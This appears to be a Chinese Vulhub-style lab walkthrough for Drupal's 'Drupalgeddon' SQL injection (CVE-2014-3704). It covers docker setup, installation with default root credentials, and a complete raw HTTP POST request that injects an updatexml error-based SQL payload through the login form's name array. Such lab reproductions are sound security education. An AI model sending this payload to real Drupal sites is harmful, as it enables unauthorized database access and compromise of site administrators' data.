


Drupal < 7.32 “Drupalgeddon” SQL注入漏洞 CVE-2014-3704¶
漏洞描述¶
Drupal 是一款用量庞大的CMS，其7.0~7.31版本中存在一处无需认证的SQL漏洞。通过该漏洞，攻击者可以执行任意SQL语句，插入、修改管理员信息，甚至执行任意代码。
环境搭建¶
Vulhub执行如下命令启动Drupal 7.31环境：
docker-compose up -d
环境启动后，访问http://your-ip:8080即可看到Drupal的安装页面，使用默认配置安装即可。
其中，Mysql数据库名填写drupal，数据库用户名、密码为root，地址为mysql。
安装完成后，访问首页：

漏洞复现¶
该漏洞无需认证，发送如下数据包即可执行恶意SQL语句：
POST /?q=node&destination=node HTTP/1.1
Host: 192.168.174.128:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 120
pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,user()),0)%23]=bob&name[0]=a
可见，信息已被爆出：
